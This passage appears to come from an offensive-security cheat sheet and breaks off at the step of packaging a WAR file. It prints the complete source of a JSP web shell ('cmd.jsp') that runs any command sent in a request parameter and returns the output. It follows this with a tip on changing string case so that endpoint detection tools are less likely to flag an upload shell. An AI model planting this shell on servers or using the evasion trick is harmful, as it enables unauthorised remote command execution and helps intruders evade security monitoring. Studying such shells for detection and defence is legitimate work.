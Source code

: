 ```java
<%@ page import="java.util.*,java.io.*"%>
<%
//
// JSP_KIT
//
// cmd.jsp = Command Execution (unix)
//
// by: Unknown
// modified: 27/06/2003
//
%>
<HTML><BODY>
<FORM METHOD="GET" NAME="myform" ACTION="">
<INPUT TYPE="text" NAME="cmd">
<INPUT TYPE="submit" VALUE="Send">
</FORM>
<pre>
<%
if (request.getParameter("cmd") != null) {
        out.println("Command: " + request.getParameter("cmd") + "<BR>");
        Process p = Runtime.getRuntime().exec(request.getParameter("cmd"));
        OutputStream os = p.getOutputStream();
        InputStream in = p.getInputStream();
        DataInputStream dis = new DataInputStream(in);
        String disr = dis.readLine();
        while ( disr != null ) {
                out.println(disr); 
                disr = dis.readLine(); 
                }
        }
%>
</pre>
</BODY></HTML>
```


!!! Tip "Evasion"
	A simple change such as changing:
	
	```java
	FileOutputStream(f);stream.write(m);o="Uploaded:
	```
	
	to:
	
	```java
	FileOutputStream(f);stream.write(m);o="uPlOaDeD:
	```
	
	may result in less detection by EDRs.



**2.** Now we generate the war file:
